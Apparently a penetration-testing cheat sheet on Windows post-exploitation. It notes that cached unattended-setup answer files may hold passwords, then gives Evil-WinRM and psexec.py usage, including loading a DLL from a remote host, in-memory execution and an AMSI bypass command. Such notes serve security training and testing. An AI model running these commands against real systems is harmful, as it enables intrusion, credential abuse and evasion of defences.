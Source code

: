 ###### *If you don't know, now you know : [Windows Setup Automation](https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/windows-setup-installation-process)*

Windows Setup is the program that installs Windows or upgrades an existing Windows installation. It is also the basis for the following installation and upgrade methods:

- Interactive Setup
- Automated installation
- Windows Deployment Services

What interest us is the *Automated installation*.

When you use *Automated installation*, you can either use:

- Setupconfig.ini to install Windows
- An *answer file* while installing Windows

![Use an answer file while installing Windows](servicing_unattend.png)

Because answer files are cached to the computer during Windows Setup, **your answer files will persist on the computer between reboots**.

Before you deliver the computer to a customer, you must delete the cached answer file in the **%WINDIR%\panther** directory. There might be potential security issues if you include domain passwords, product keys, or other sensitive data in your answer file.

#### Windows Remote Management

WinRM is Microsoft's implementation of WS-Management in Windows which allows systems to access or exchange management information across a common network.

If you find a user, try also to use WinRM

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.

[psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) remote shell/that lets you execute processes on remote windows systems.

Usage:

- **--scripts**: Powershell scripts local path
- **--executables**: C# executables local path
- **--hash**: NTHash

```bash
evil-winrm -i IP -u USERNAME -p PASSWORD --scripts PS_SCRIPTS_PATH --executables EXES_PATH
\*Evil-WinRM\* PS >upload /root/files/                       # Upload a file (Relative paths are not allowed to use on download/upload.)
\*Evil-WinRM\* PS >download file                             # Download file (Relative paths are not allowed to use on download/upload.)
\*Evil-WinRM\* PS >services                                  # List all services showing if there your account has permissions over each one.
\*Evil-WinRM\* PS >PowerView.ps1                             # Executes PowerView.ps1
\*Evil-WinRM\* PS >menu                                      # Displays loaded functions from the PowerShell script executed

# Advanced commands
\*Evil-WinRM\* PS >Invoke-Binary /opt/file.exe               # Allows exes compiled from c# to be executed in memory.
\*Evil-WinRM\* PS >Dll-Loader -http -path http://IP/File.dll # Allows loading dll libraries in memory
\*Evil-WinRM\* PS >Bypass-4MSI                               # Patchs AMSI protection
```
